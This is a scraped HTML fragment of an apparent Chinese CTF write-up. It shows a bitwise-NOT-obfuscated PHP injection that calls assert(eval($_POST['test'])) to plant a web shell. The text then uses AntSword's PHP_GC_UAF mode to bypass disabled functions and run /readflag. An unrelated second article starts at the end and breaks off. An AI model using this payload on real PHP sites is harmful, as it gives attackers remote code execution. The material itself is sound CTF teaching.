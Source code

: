 <div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li><li style="color: rgb(153, 153, 153);">2</li><li style="color: rgb(153, 153, 153);">3</li><li style="color: rgb(153, 153, 153);">4</li><li style="color: rgb(153, 153, 153);">5</li><li style="color: rgb(153, 153, 153);">6</li><li style="color: rgb(153, 153, 153);">7</li><li style="color: rgb(153, 153, 153);">8</li><li style="color: rgb(153, 153, 153);">9</li><li style="color: rgb(153, 153, 153);">10</li><li style="color: rgb(153, 153, 153);">11</li><li style="color: rgb(153, 153, 153);">12</li><li style="color: rgb(153, 153, 153);">13</li></ul></pre> 
<pre data-index="4" class="prettyprint"><code class="prism language-php has-numbering" onclick="mdcp.copyCode(event)" style="position: unset;"><span class="token operator">?</span>code<span class="token operator">=</span><span class="token punctuation">(</span><span class="token operator">~</span><span class="token operator">%</span><span class="token number">9</span>E<span class="token operator">%</span><span class="token number">8</span>C<span class="token operator">%</span><span class="token number">8</span>C<span class="token operator">%</span><span class="token number">9</span>A<span class="token operator">%</span><span class="token number">8</span>D<span class="token operator">%</span><span class="token number">8</span>B<span class="token punctuation">)</span><span class="token punctuation">(</span><span class="token operator">~</span><span class="token operator">%</span><span class="token constant">D7</span><span class="token operator">%</span><span class="token number">9</span>A<span class="token operator">%</span><span class="token number">89</span><span class="token operator">%</span><span class="token number">9</span>E<span class="token operator">%</span><span class="token number">93</span><span class="token operator">%</span><span class="token constant">D7</span><span class="token operator">%</span><span class="token constant">DB</span><span class="token operator">%</span><span class="token constant">A0</span><span class="token operator">%</span><span class="token constant">AF</span><span class="token operator">%</span><span class="token constant">B0</span><span class="token operator">%</span><span class="token constant">AC</span><span class="token operator">%</span><span class="token constant">AB</span><span class="token operator">%</span><span class="token constant">A4</span><span class="token operator">%</span><span class="token constant">DD</span><span class="token operator">%</span><span class="token number">8</span>B<span class="token operator">%</span><span class="token number">9</span>A<span class="token operator">%</span><span class="token number">8</span>C<span class="token operator">%</span><span class="token number">8</span>B<span class="token operator">%</span><span class="token constant">DD</span><span class="token operator">%</span><span class="token constant">A2</span><span class="token operator">%</span><span class="token constant">D6</span><span class="token operator">%</span><span class="token constant">D6</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
<div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li></ul></pre> 
<p><img src="https://img-blog.csdnimg.cn/20210302224910878.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3d1eWFvd2FuZ2NodWFu,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><br> 之后连接木马<br> <img src="https://img-blog.csdnimg.cn/20210302225243424.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3d1eWFvd2FuZ2NodWFu,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><br> <img src="https://img-blog.csdnimg.cn/20210302225515115.png" alt="在这里插入图片描述"><br> 这里是要执行readflag然后才能读取flag<br> 用蚁剑的<img src="https://img-blog.csdnimg.cn/20210303000550556.png" alt="在这里插入图片描述"><br> 选择PHP_GC_UAF模式<br> 进入到一个虚拟shell模式，输入/readflag，得到flag<br> <img src="https://img-blog.csdnimg.cn/20210303000740936.png" alt="在这里插入图片描述"></p>
                </div><div data-report-view="{&quot;mod&quot;:&quot;1585297308_001&quot;,&quot;spm&quot;:&quot;1001.2101.3001.6548&quot;,&quot;dest&quot;:&quot;https://blog.csdn.net/wuyaowangchuan/article/details/114295378&quot;,&quot;extend1&quot;:&quot;pc&quot;,&quot;ab&quot;:&quot;new&quot;}"><div></div></div>
                <link href="https://csdnimg.cn/release/blogv2/dist/mdeditor/css/editerView/markdown_views-98b95bb57c.css" rel="stylesheet">
                <link href="https://csdnimg.cn/release/blogv2/dist/mdeditor/css/style-c216769e99.css" rel="stylesheet">
        </div>


<div id="article_content" class="article_content clearfix">
        <link rel="stylesheet" href="https://csdnimg.cn/release/blogv2/dist/mdeditor/css/editerView/kdoc_html_views-1a98987dfd.css">
        <link rel="stylesheet" href="https://csdnimg.cn/release/blogv2/dist/mdeditor/css/editerView/ck_htmledit_views-25cebea3f9.css">
                <div id="content_views" class="markdown_views prism-atom-one-dark">
                    <svg xmlns="http://www.w3.org/2000/svg" style="display: none;">
                        <path stroke-linecap="round" d="M5,0 0,2.5 5,5z" id="raphael-marker-block" style="-webkit-tap-highlight-color: rgba(0, 0, 0, 0);"></path>
                    </svg>
                    <pre data-index="0" class="prettyprint"><code class="has-numbering" onclick="mdcp.copyCode(event)" style="position: unset;">知识点：字符串绕过长度限制  反序列字符串化逃逸   
<div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li></ul></pre> 
<h1><a name="t0"></a><a id="_3"></a>知识点</h1> 
<h2><a name="t1"></a><a id="_4"></a>字符串绕过长度限制</h2> 
<p>例如：</p> 